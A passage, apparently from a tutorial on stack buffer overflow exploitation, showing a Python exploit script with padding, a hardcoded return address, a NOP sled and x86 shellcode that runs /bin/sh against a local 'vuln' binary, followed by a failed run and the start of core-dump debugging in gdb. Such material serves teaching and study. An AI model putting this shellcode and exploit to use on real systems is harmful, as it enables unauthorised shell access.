 def pattern(size=1024, start=0):
    try:
        bytes = open("pattern.txt").read(size+start)
        return bytes[start:]
    except:
        return "A"*size

def nops(size=1024):
    return "\x90"*size

def int2hexstr(num, intsize=4):
    if intsize == 8:
        if num < 0:
            result = struct.pack("<q", num)
        else:
            result = struct.pack("<Q", num)
    else:
        if num < 0:
            result = struct.pack("<l", num)
        else:
            result = struct.pack("<L", num)
    return result

i2hs = int2hexstr

def list2hexstr(intlist, intsize=4):
    result = ""
    for value in intlist:
        if isinstance(value, str):
            result += value
        else:
            result += int2hexstr(value, intsize)
    return result

l2hs = list2hexstr

def exploit(vuln):
    padding = "A" * 76
    payload = [padding]
 
    shellcode = (
       "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31"
       "\xc9\x89\xca\x6a\x0b\x58\xcd\x80"
    )

    payload += [int2hexstr(0xbffff46c) +  nops(500) + shellcode] # put your payload here
    payload = list2hexstr(payload)
    args = [vuln, payload]
    env = {"PEDA":nops()}
    resource.setrlimit(resource.RLIMIT_STACK, (-1, -1))
    resource.setrlimit(resource.RLIMIT_CORE, (-1, -1))
    os.execve(vuln, args, env)

if __name__ == "__main__":
    if len(sys.argv) < 2:
        usage()
    else:
        exploit(sys.argv[1])
{{< / highlight >}}
Lets run it !!!!
```
  $ ./exploit.py ./vuln
  Illegal instruction (core dumped)
```
Why did this core dump? Well more likely that the address for our shellcode is
now wrong because we were running in gdb before. Luckily it has core dumped and
left a core file around so lets open this up in gdb 
```
```